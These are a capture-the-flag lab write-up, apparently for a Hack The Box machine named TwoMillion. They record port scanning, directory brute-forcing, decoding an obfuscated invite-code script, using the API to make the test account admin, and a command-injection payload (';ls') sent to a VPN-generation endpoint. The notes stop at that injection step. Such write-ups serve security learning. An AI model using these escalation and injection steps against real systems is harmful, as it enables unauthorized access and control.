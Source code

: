 # TwoMillsion

> IP: [10.10.11.221]

## NOTES / STEPS

1. Deploy Machine
2. NMAP
   1. > nmap -sC -sV 10.10.11.221 -oN init_scan
      1. Port 22 -> ssh
      2. Port 80 -> http
         1. http-title: Did not follow redirect to http://2million.htb/
            1. Need to add to /etc/hosts
   2. > nmap -sC -sV 2million.htb
3. HTTP
   1. Navigate to website and inspect source code
      1. This looks like a normal SPA where the navbar scrolls the page
      2. /login
         1. This is a login form, and in here we see something interesting

            ```html
                <script>
                    $(document).ready(function() {
                        localStorage.removeItem('inviteCode');
                    });
                </script>
            ```

            1. This looks like there is an item labled "inviteCode" that is removed
   2. GOBUSTER
      1. > gobuster dir -u http://2million.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
         1. /home
         2. /login
         3. /register
         4. /api
         5. /logout
         6. /404
         7. /invite
4. /INVITE
   1. In here we see the code:

        ```js
            $(document).ready(function() {
                $('#verifyForm').submit(function(e) {
                    e.preventDefault();

                    var code = $('#code').val();
                    var formData = { "code": code };

                    $.ajax({
                        type: "POST",
                        dataType: "json",
                        data: formData,
                        url: '/api/v1/invite/verify',
                        success: function(response) {
                            if (response[0] === 200 && response.success === 1 && response.data.message === "Invite code is valid!") {
                                // Store the invite code in localStorage
                                localStorage.setItem('inviteCode', code);

                                window.location.href = '/register';
                            } else {
                                alert("Invalid invite code. Please try again.");
                            }
                        },
                        error: function(response) {
                            alert("An error occurred. Please try again.");
                        }
                    });
                });
            });
        ```

        1. We can see if we have the correct inviteCode we will be redirected to /register (which we found earlier in the gobuster scan)
   2. Looking at the scripts we see the inviteapi.min.js file

        ```js
            eval(function(p, a, c, k, e, d) {
                e = function(c) {
                    return c.toString(36)
                }
                ;
                if (!''.replace(/^/, String)) {
                    while (c--) {
                        d[c.toString(a)] = k[c] || c.toString(a)
                    }
                    k = [function(e) {
                        return d[e]
                    }
                    ];
                    e = function() {
                        return '\\w+'
                    }
                    ;
                    c = 1
                }
                ;while (c--) {
                    if (k[c]) {
                        p = p.replace(new RegExp('\\b' + e(c) + '\\b','g'), k[c])
                    }
                }
                return p
            }('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}', 24, 24, 'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'), 0, {}))
        ```

        1. Looking at this we can see there is "makeInviteCode"
        2. We also see a how/to/generate
           1. Maybe we can use this to generate our own
   3. CURL
      1. Lets try and use the how to generate
         1. > curl -X POST http://2million.htb/api/v1/invite/how/to/generate
            1. RESPONSE: {"0":200,"success":1,"data":{"data":"Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr","enctype":"ROT13"},"hint":"Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."}
            2. This looks like ROT13 and just like the hint suggests 
      2. FROM ROT13
         1. "In order to generate the invite code, make a POST request to \/api\/v1\/invite\/generate"
      3. GENERATE
         1. > curl -X POST http://2million.htb/api/v1/invite/generate
            1. RESPONSE: {"0":200,"success":1,"data":{"code":"VE1FMTItWFVPTU0tQ1BHU1ctRjYyOTU=","format":"encoded"}}
               1. This looks like base64 encoded text
                  1. FROM BASE64 -> "TME12-XUOMM-CPGSW-F6295"
                  2. SUCCESS! We have an invite token
5. /REGISTER
   1. Input the invite token
   2. UN: sample@gmail.com
   3. PW: password1234
6. /LOGIN
   1. SUCCESS!
   2. We are now met with a dashboard
      1. Looking around we see we can download a VPN (openVPN) config file
   3. API
      1. When downloading the config file we see /api/v1/user/vpn/generate
      2. There could be more API points
      3. Lets open this up in burpsuite and look for more endpoints
7. BURPSUITE
   1. Target -> Repeater -> http://2million.htb/api/v1

        ```json
            {
            "v1": {
                "user": {
                    "GET": {
                        "/api/v1": "Route List",
                        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
                        "/api/v1/invite/generate": "Generate invite code",
                        "/api/v1/invite/verify": "Verify invite code",
                        "/api/v1/user/auth": "Check if user is authenticated",
                        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
                        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
                        "/api/v1/user/vpn/download": "Download OVPN file"
                    },
                    "POST": {
                        "/api/v1/user/register": "Register a new user",
                        "/api/v1/user/login": "Login with existing user"
                    }
                },
                "admin": {
                    "GET": {
                        "/api/v1/admin/auth": "Check if user is admin"
                    },
                    "POST": {
                        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
                    },
                    "PUT": {
                        "/api/v1/admin/settings/update": "Update user settings"
                    }
                }
            }
            }
        ```

        1. In here we see several endpoints, especially ones pertaining to ADMIN
           1. Specificaly we see that we can use "auth" to check if we are admin and if not potentially use "update" to setus as admin
   2. ADMIN
      1. GET -> /api/v1/admin/auth
         1. RESPONSE: {"message":false}
      2. PUT -> /api/v1/admin/settings/update
         1. RESPONSE: {"status":"danger","message":"Invalid content type."}
            1. Lets add the content-type: application/json
         2. RESPONSE: {"status":"danger","message":"Missing parameter: email"}
            1. Lets add email
               1. {"email":"sample@gmail.com"}
         3. RESPONSE: {"status":"danger","message":"Missing parameter: is_admin"}
            1. Lets add is_admin and set to true or (1)
               1. {"is_admin":"1"}
         4. RESPONSE:
            1. {"id":25,"username":"sample","is_admin":1}
      3. Now if we go back and check our /api/v1/admin/auth
         1. RSEPONSE: {"message":true}
            1. So we succeeded as setting our user as admin
   3. EXPLOIT
      1. We now need to somehow get code execution
      2. We can more than likely use the /generate api endpoint
      3. POST
         1. /api/v1/user/vpn/generate
            1. Add Content-Type:application/json
            2. Add {"username":";ls"}


## QUESTIONS

1. Submit user flag
2. Submit root flag
